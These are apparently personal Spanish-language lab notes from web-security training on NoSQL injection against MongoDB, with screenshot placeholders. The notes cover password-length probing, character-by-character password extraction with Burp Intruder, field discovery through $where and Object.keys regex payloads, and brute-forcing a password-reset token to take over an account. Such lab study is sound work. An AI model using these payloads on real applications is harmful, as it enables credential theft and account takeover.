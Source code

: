 ### Lab - Explotando NoSQL injection extracción de datos
El enunciado dice que la password posee sólo palabras en minúscula
Con ctrl +U puedo encodear en URL lo seleccionado

![[Pasted image 20240404114219.png]]
Este payload comprueba la longitud de la contraseña, temdremos que acertar el campo password
`administrator' && this.password.length < 30 || 'a'=='b`
![[Pasted image 20240404114905.png]]
Mandaremos la petición al intruder con este payload con clusterbomb dónde nos fijaremos en el Length, en los numeros del 0 al 7 y pondremos la contraseña en orden
`administrator' && this.password[§0§]=='§a§`
![[Pasted image 20240404115543.png]]
![[Pasted image 20240404115928.png]]

### Lab - Explotando NoSQL para extraer campos desconocidos
Podemos averiguar que campos existen en MongoDB con estos payloads, o haciendo un ataque de diccionario aplicando la variable en el campo
- `lookup?username=admin'+%26%26+this.password!%3d'`
- `admin' && this.username!='` 
- `admin' && this.foo!='`
- `{"username":"wiener","password":"peter", "$where":"0"}` --> probar con 1 añadimos operadores
- `"$where":"Object.keys(this)[0].match('^.{0}a.*')"` podemos inspeccionar un campo de daos haciendo fuerza bruta
Probamos con una regex, nos dice que la password debe cambiar
![[Pasted image 20240404123813.png]]
Resetearemos la passwd
![[Pasted image 20240404123923.png]]
Vemos que podemos añadir un campo al JSON ya que no hay errores
![[Pasted image 20240404124100.png]]
Sin embargo un valor verdadero lo acepta
![[Pasted image 20240404124638.png]]
Probaremos un object match mandandolo al intruder añadiendo 2 Payloads --> trataremos de averiguar sus campos
- 1 Payload tratará de números del 1 al 20
![[Pasted image 20240404132153.png]]
HAcemos una coincidencia del error de cuenta bloqueada, esas serán las peticiones que queremos ya que aceptará la web que hay una de esas letras en la posición que indica el primer payload
![[Pasted image 20240404132138.png]]
Obtenemos estos campos:
- username
- password
- email
- id
- newPwdTkn
![[Pasted image 20240404132425.png]]
En festa petición vemos que sucede si ponemos los campos obtenidos:
![[Pasted image 20240404133345.png]]
Probaremos en el intruder el campo del token --> `newPwdTkn` 
![[Pasted image 20240404133710.png]]
![[Pasted image 20240404134213.png]]
Gracias al grepeo establecido sabemos que caracteres son
![[Pasted image 20240404134228.png]]
Obtenemos token y clickamos btn + right --> copiar response en browser